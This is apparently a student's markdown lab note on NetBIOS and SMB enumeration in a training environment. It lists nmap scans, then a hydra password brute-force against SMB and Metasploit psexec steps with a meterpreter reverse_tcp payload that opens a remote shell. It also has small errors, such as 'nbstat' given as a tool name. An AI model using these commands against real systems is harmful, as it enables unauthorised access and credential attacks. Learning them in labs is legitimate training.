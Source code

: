 # NetBIOS & SMB Enumberation

## NetBIOS (Network Basic Input/Output System)

NetBIOS is an API and a set of network protocols for providing communicaation services over a local network. It's used primarily to allow applications on different computers to find and interact with each other on a network

Ports:
137 ---> Name Service
138 ---> Datagram Service
139 ---> Session Service over UDP and TCP

- __1.`nmblookup <ip>`__
- __2.`nbtscan <ip>`__

> Note: Sometimes NetBIOS service runs on UDP so go for -sU in Nmap
  - `nmap -sU -p 137 <ip>`
  - `nmap -sU -sV -T4 --script nbstat.nse -p 137 -Pn -n <ip>` 
# Q&A
- __1.Which tool is commonly used to perform basic NetBIOS enumeration?__
  - __Ans. `nbstat`__

## SMB (Server Message Block)

SMB is a network file sharing protocol that allows computers on a network to share files,printers, and other resources. It is the primary protocol used in Windows networks for these purposes.

Ports:
445 ---> is the direct SMB port.
139 ---> is used for SMB when it's utilizing NetBIOS over TCP/IP.

  - `nmap -sV -p 139,445 demo.ine.local`
  - `nmap -p 445 --script smb-protocols`

- __nmap__
  - __`nmap -p 445 --script smb-enum-users <ip>`__
  - __Save the users in the user.txt for brute force attack__
- __hydra__
  - __`hydra -L user.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <ip> smb`__
  - __You can use psexec module in metasploit__
- __msfconsole__
  - __`service postgresql start & msfconsole`__
  - __`search psexec`__
  - __`set RHOSTS <target ip>`__
  - __`set SMBUser <username>`__
  - __`set SMBPass <password>`__
  - __`exploit`__
  - > __If you are not getting then switch to x64 bit meterpreter session__
    - __`set payload windows/x64/meterpreter/reverse_tcp
    - __`exploit`__
  - __`sysinfo`__
  - __`shell`__
  - > __make this session in the background__
